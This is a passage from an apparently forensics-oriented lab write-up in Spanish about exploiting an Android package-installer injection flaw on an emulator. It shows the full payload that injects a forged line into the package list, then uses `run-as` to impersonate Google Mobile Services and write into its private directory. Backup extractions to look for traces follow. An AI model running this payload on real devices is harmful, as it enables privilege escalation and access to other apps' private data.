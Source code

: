    ¡OMG! Podemos listarlo y además escribir en él. El primer comando `touch` crea un archivo vacío en el directorio de la aplicación y cuando listamos el contenido podemos ver el archivo, confirmando que, al menos, tenemos permisos de lectura y escritura en ese directorio.

6. Ahora intentemos suplantar una aplicación privilegiada: vayamos con com.google.android.gms. Así se vería la shell haciéndolo para esta aplicación:

   ```bash
   emulator64_x86_64_arm64:/ $ pm list packages -U | grep com.google.android.gms
   package:com.google.android.gms uid:10099

   emulator64_x86_64_arm64:/ $ PAYLOAD="@null
   m> com.google.android.gms 10099 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"

   emulator64_x86_64_arm64:/ $ pm install -i "$PAYLOAD" /data/local/tmp/app-release.apk
   Success

   emulator64_x86_64_arm64:/ $ run-as com.google.android.gms touch /data/user_de/0/com.google.android.gms/app_chimera/m/this
   emulator64_x86_64_arm64:/ $ run-as com.google.android.gms ls -al /data/user_de/0/com.google.android.gms/app_chimera/m/
   total 84
   drwx--x--x 10 u0_a99 u0_a99 4096 2025-01-09 16:28 .
   drwxrwx--x  4 u0_a99 u0_a99 4096 2025-01-09 14:53 ..
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000a
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000b
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000c
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000d
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000e
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 0000000f
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:52 00000010
   drwx--x--x  2 u0_a99 u0_a99 4096 2025-01-09 14:53 00000011
   -rw-rw-rw-  1 u0_a99 u0_a99    0 2025-01-09 16:28 this
   emulator64_x86_64_arm64:/ $
   ```
&nbsp;
   Como podemos ver, podemos suplantar al usuario de la aplicación de Google Mobile Services que tiene un nivel de privilegios importante.

Hemos ejecutado el exploit con éxito.

### Segunda y tercera extracción

En este punto se hace otra extracción para tratar de identificar cambios o registros que puedan indicar que esta vulnerabilidad fue explotada. Hacemos una extracción inmediatamente después de ejecutar el exploit y otra después de reiniciar el dispositivo. No tengo idea si esto servirá para algo, pero hagámoslo. Al final quedan 3 backups, en este caso:
1. c144c4e6-290e-4172-97e9-58139749e374  --> Backup con el teléfono "limpio"  
2. 0b694fe4-bba1-4736-bf7e-8e48decfaab4 --> Backup luego de ser explotado  
3. f061a297-3356-4d1f-986f-c1b662e4948f --> Backup luego de ser reiniciado

### Chequeos posteriores
